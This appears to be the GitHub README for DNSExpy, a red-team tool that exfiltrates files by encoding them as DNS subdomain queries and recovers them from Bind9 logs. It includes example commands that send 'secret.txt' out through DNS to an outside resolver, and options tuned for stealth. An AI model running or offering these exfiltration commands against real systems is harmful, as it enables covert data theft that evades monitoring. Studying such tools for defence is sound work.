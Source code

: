 [![License](https://img.shields.io/badge/license-MIT-green)](https://opensource.org/licenses/MIT) ![Stable Release](https://img.shields.io/badge/stable_release-1.0.0-blue.svg)

![logo](https://raw.githubusercontent.com/dgonzalez55/dnsExpy/main/logo.png "DNSExpy Logo")

Disclaimer: **FOR EDUCATIONAL PURPOSE ONLY! The contributors do not assume any responsibility for the use of this tool.**

# DNSExpy - A DNS Data Exfiltration Tool 🧑‍💻
Developed by David González [dgonzalez55](https://github.com/dgonzalez55/)

Latest Release: v1.0.0. December 27, 2022

License: MIT

This product is subject to the terms detailed in the license agreement.

If you have any questions, comments or concerns regarding DNSExpy, please consult the documentation prior to contacting one of the developers. Your feedback is always welcome. 

##  Contents 🧰

* About DNSExpy
* Installation
* Example Usage
* Usage 

## About DNSExpy ℹ

DNSExpy is a red team tool that could be used to exfiltrate files through DNS protocol by encoding its data and sending them as "random" subdomains of a target domain. If you control the nameserver of the target domain, then you will be able to recover the exfiltrated data even if you are sending the DNS queries to the current nameserver of the victim machine. In fact, you could choose to send exfiltrated data directly to your own nameserver and use a true domain out of your control like github.com. The problem with this approach is that it will be easily detected because of the different nameserver used. 
About recovering exfiltrated data, DNSExpy could do the whole process automatically if the name server of the attacker used is Bind9 and a query log file is provided to the tool. Finally, the exfiltration process could be done in a stealthy way by adjusting time frame and amount of requests per data chunk.

### Features
* Data exfiltration through DNS queries
* Data exfiltration recovering from Bind9 query log files
* Data compression
* Base64 encoding
* Customization of time frame and number of retries
* Custom domains
* Custom dns server
* Error control.

## Installation ⚙️

1. Fork/Clone/Download this repo

    `git clone https://github.com/dgonzalez55/dnsExpy.git`

2. Navigate to the directory

    `cd dnsExpy`

3. Create a virtual environment for this project

    `python -m venv venv`

4. Load the virtual environment
   - On Windows Powershell: `.\venv\Scripts\activate.ps1`
   - On Linux and Git Bash: `source venv/bin/activate`
  
5. Run `pip install -r requirements.txt`

6. Run the dnsExpy.py script

    `python dnsExpy.py <target_options>`

## Example Usage ✌

Exfiltrating secret.txt file using fpdeinformatica.es domain to encode data and through DNS queries sent to 1.1.1.1 (cloudflare). 

```
$ python .\DNSExPy.py -f .\secret.txt -d fpdeinformatica.es -D 1.1.1.1 -m send -v 

```

Recovering data from query.log file encoded as random github.com subdomains and saving exfiltrated file as exfiltrated.txt

```
$ python .\DNSExPy.py -f .\query.log -d github.com -m recover ---output exfiltrated.txt -v 

```

## Usage 🛠
```
______ _   _  _____ _____
|  _  \ \ | |/  ___|  ___|
| | | |  \| |\ `--.| |____  ___ __  _   _   _ __  _   _
| | | | . ` | `--. \  __\ \/ / '_ \| | | | | '_ \| | | |
| |/ /| |\  |/\__/ / |___>  <| |_) | |_| |_| |_) | |_| |
|___/ \_| \_/\____/\____/_/\_\ .__/ \__, (_) .__/ \__, |
                             | |     __/ | | |     __/ |
                             |_|    |___/  |_|    |___/

DNS Exfiltration Spy
Author: @dgonzalez55 a.k.a. MaeseLeGon
Github: https://github.com/dgonzalez55/dnsExpy
Version: 1.0.0

usage: DNSExPy.py [-h] -f FILENAME -d DOMAIN -m {send,recover} [-D DNS] [-p DNSPORT] [-o OUTPUTFILE] [-r REQUESTS] [-t DELAY] [-v] [-z]

DNSExpy.py - DNS Exfiltration Spy

Basic Options:
  -h, --help            show this help message and exit
  -f FILENAME, --file FILENAME
                        Target file to exfiltrate or recover (default: None)
  -d DOMAIN, --domain DOMAIN
                        Domain used in data exfiltration (default: None)
  -m {send,recover}, --mode {send,recover}
                        Mode to be used (send or recover) (default: None)
  -D DNS, --dns DNS     DNS server to query (default: localhost)
  -p DNSPORT, --port DNSPORT
                        DNS port to be used (default: 53)
  -o OUTPUTFILE, --output OUTPUTFILE
                        Output file to save recovered data (only used when recovering data) (default: recovered)

Advanced Options:
  These options are advanced and may not be needed for most users.

  -r REQUESTS, --requests REQUESTS
                        Number of requests to send for each data chunk (default: 2)
  -t DELAY, --time-frame DELAY
                        Number of seconds to wait bewteen each data chunk sent (default: 1)
  -v, --verbose         Verbose output (default: False)
  -z, --zip             If zip compress is required by the exfiltration process (default: False)

```
